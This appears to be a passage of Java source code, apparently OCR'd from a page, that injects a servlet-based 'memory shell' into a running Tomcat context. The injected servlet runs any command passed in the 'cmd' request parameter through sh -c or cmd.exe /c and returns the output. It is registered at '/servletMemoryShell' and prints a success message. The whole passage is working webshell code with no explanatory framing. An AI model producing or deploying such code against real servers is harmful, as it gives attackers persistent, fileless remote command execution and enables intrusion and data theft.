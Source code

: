 ```java

                public ServletConfig getServletConfig() {
                    return null;
                }

                public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {
                    HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
                    HttpServletResponse httpServletResponse = (HttpServletResponse) servletResponse;

                    if (httpServletRequest.getParameter("cmd") != null) {
                        boolean isLinux = true;
                        String osType = System.getProperty("os.name");
                        if (osType != null && osType.toLowerCase().contains("win")) {
                            isLinux = false;
                        }

                        String[] command = isLinux ? new String[]{"sh", "-c", httpServletRequest.getParameter("cmd")} : new String[]{"cmd.exe", "/c", httpServletRequest.getParameter("cmd")};
                        InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                        Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                        String output = scanner.hasNext() ? scanner.next() : "";
                        httpServletResponse.getWriter().write(output);
                        httpServletResponse.getWriter().flush();
                    }
                }

                public String getServletInfo() {
                    return null;
                }

                public void destroy() {
                }
            };
            wrapper.setLoadOnStartup(1);
            wrapper.setServlet(servletMemoryShell);
            wrapper.setServletClass(servletMemoryShell.getClass().getName());

            standardContext.addChild(wrapper);
            standardContext.addServletMapping("/servletMemoryShell", "servletMemoryShell");

            response.getWriter().write("Servlet Inject Successfully...");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
